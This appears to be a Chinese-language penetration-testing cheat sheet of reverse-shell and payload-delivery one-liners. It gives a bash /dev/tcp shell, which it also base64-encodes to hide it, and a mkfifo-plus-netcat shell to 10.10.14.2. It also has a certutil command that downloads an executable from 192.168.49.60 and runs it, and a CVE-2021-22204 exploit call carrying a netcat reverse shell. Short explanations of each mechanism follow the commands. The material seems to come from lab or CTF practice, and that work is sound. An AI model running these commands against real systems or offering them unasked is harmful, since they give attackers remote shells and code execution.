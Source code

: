 ```
echo "bash -i  >& /dev/tcp/10.10.14.2/9001 0>&1  " | base64
```
### 原理

1. `bash -i >& /dev/tcp/10.10.14.2/5555 0>&1`
    
    - 利用 Bash 内置的 **/dev/tcp** 功能打开一个 TCP 连接
        
    - 将 stdin/stdout/stderr 直接绑定到这个连接，实现交互式 shell
        
2. `| base64`
    
    - 只是把命令字符串 **编码成 base64**，本身不执行
        
    - 解码后需要用 `bash -c "$(echo ... | base64 -d)"` 才能执行
        

⚡ 总结：利用 bash 内置 TCP 功能建立 shell，base64 只是编码/隐藏命令。



```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.2 5555 > /tmp/f 
```
### 原理

1. `rm /tmp/f; mkfifo /tmp/f`  
    删除已有的 `/tmp/f` 文件，然后创建一个 **命名管道**（FIFO）。命名管道可以让两个进程通过文件交换数据。
    
2. `cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.2 5555 > /tmp/f`  
    数据流如下：
    
    - `cat /tmp/f` 从命名管道读数据
        
    - 输出给 `/bin/sh -i`，启动一个 **交互式 shell**
        
    - `2>&1` 将标准错误重定向到标准输出
        
    - 通过 `nc`（netcat）发送到远程 IP/端口
        
    - `> /tmp/f` 把远程的数据写回 FIFO，实现 stdin/stdout 的循环
        

⚡ 总结：通过 FIFO + netcat 建立一个远程交互 shell。



```
certutil -f -urlcache -split \"http://192.168.49.60:8082/WebIIS.exe\" \"C:\\Windows\\Temp\\WebIIS.exe\" && C:\\Windows\\Temp\\WebIIS.exe
```
```
certutil -f -urlcache -split "http://192.168.49.60:8082/WebIIS.exe" "C:\Windows\Temp\WebIIS.exe" && C:\Windows\Temp\WebIIS.exe
```


```
python3 exploit-CVE-2021-22204.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.53 1337 >/tmp/f'
```